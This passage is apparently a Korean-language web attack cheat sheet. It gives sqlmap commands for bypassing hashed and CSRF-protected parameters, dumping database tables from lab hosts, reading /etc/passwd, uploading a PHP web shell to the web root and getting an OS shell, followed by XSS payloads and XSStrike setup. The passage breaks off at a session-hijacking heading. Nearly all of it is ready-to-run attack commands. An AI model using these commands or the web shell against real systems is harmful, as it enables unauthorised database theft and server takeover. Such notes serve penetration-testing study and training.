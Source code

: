 ```

### 계산된 Parameter Bypass
```sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI```

### 기타 우회
```sqlmap -u "http://94.237.58.147:32720/case8.php" --data="id=1&t0ken=obDoPdz6ZhgfhUmxYp9VbLhAKDnPkIFEDILj6u0pUAs" --csrf-token="t0ken" -T flag8 --dump```<br/>
```sqlmap -u "http://94.237.58.147:32720/case9.php?id=1&uid=87808050" --randomize=uid --batch -T flag9 --dump```<br/>
```sqlmap -u "http://94.237.58.106:53037/case10.php" --data="id=1" --random-agent -T flag10 --dump```<br/>
```sqlmap -u "http://94.237.58.106:53037/case11.php?id=1" --tamper=between -T flag11 --dump```

## 4. OS Exploitation

### DBA 권한 확인
```sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba```<br/>
```sqlmap -u "http://www.example.com/?id=1" --is-dba```

### 로컬 파일 읽기
```
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
cat ~/.sqlmap/output/www.example.com/files/_etc_passwd
```

### 로컬 파일 쓰기
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
curl http://www.example.com/shell.php?cmd=ls+-la
```

## 5. OS 명령 실행

```sqlmap -u "http://www.example.com/?id=1" --os-shell```<br/>
```sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E```  # Error-based SQLi

<br/><br/>
# XSS 

### Stored XSS
```<script>alert(window.origin)</script>```

### DOM 공격
```<img src="" onerror=alert(window.origin)>```

## XSS Discovery

### Automated Discovery (XSS Strike)
```
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
```
- [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS)
- [XSSer](https://github.com/epsylon/xsser)

## Manual Discovery

### XSS Payloads
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
- [PayloadBox](https://github.com/payloadbox/xss-payload-list)

## 세션 하이재킹

### Loading a Remote Script
```